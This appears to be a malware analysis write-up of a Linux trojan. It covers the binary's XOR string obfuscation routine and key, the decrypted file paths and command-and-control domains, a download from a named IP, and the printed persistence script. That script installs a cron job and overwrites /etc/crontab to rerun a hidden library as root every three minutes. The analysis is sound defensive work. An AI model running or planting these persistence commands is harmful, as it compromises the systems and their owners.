 Upon decompiling, there is a subroutine called as `encrypt_code`. This subroutine is using XOR to "encrypt" the string with the predefined key. The string can be "decrypt" using a simple Python script found here (https://gist.github.com/moonbingbing/3432989).

key = BB2FA36AAA9541F0

```assembly
0x8049090 <encrypt_code+0>:    push    ebp {__saved_ebp}
0x8049091 <encrypt_code+1>:    mov     ebp, esp {__saved_ebp}
0x8049093 <encrypt_code+3>:    push    esi {__saved_esi}
0x8049094 <encrypt_code+4>:    mov     esi, dword [ebp+0xc {arg2}]
0x8049097 <encrypt_code+7>:    push    ebx {__saved_ebx}
0x8049098 <encrypt_code+8>:    mov     ebx, dword [ebp+0x8 {arg1}]
0x804909b <encrypt_code+11>:    test    esi, esi
0x804909d <encrypt_code+13>:    jle     0x80490c2
0x804909f <encrypt_code+15>:    xor     ecx, ecx  {0x0}
0x80490a1 <encrypt_code+17>:    mov     eax, ecx
0x80490a3 <encrypt_code+19>:    sar     eax, 0x1f
0x80490a6 <encrypt_code+22>:    shr     eax, 0x1c
0x80490a9 <encrypt_code+25>:    lea     edx, [ecx+eax]
0x80490ac <encrypt_code+28>:    and     edx, 0xf
0x80490af <encrypt_code+31>:    sub     edx, eax
0x80490b1 <encrypt_code+33>:    movzx   eax, byte [edx+xorkeys]
0x80490b8 <encrypt_code+40>:    xor     byte [ecx+ebx], al
0x80490bb <encrypt_code+43>:    add     ecx, 0x1
0x80490be <encrypt_code+46>:    cmp     ecx, esi
0x80490c0 <encrypt_code+48>:    jne     0x80490a1
0x80490c2 <encrypt_code+50>:    mov     eax, ebx
0x80490c4 <encrypt_code+52>:    pop     ebx {__saved_ebx}
0x80490c5 <encrypt_code+53>:    pop     esi {__saved_esi}
0x80490c6 <encrypt_code+54>:    pop     ebp {__saved_ebp}
0x80490c7 <encrypt_code+55>:    retn    
``` 

Some of the encrypted strings:

```
1. m4S4nAC/n&ZV - /var/run/gcc
2. m4S4nAC/nA - /var/run/
3. m6_6n3 - /tmp/
4. m [(n3 - /bin/
5. m7A4nQ_/nA - /usr/bin/
6. m.[$n__#4%\\C - /lib/libudev
7. &,Ak&\\Y&-$\x17ZFV|\x06rr\x02v=R\x1b%/2\x14R[^!\\\'lQ),\t - dns-google.org:60000|a-dns-google.com:
```

Further execution shows that a Bash script will be downloaded from `103.25.9.228` using a HTTP GET request. Last checked on 21/9/08, the IP address is no longer responding to any connection. However, some of the malware post-installation can still be found within the binary itself.

The post-installation consists of a Bash script named `/etc/cron.hourly/gcc4.sh` which contains the following lines.

```
#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin
cp /lib/libudev4.so /lib/libudev4.so.6
/lib/libudev4.so.6
```

```
sed -i \'/\\/etc\\/cron.hourly\\/gcc4.sh/d\' /etc/crontab && echo \'*/3 * * * * root /etc/cron.hourly/gcc4.sh\' > /etc/crontab
```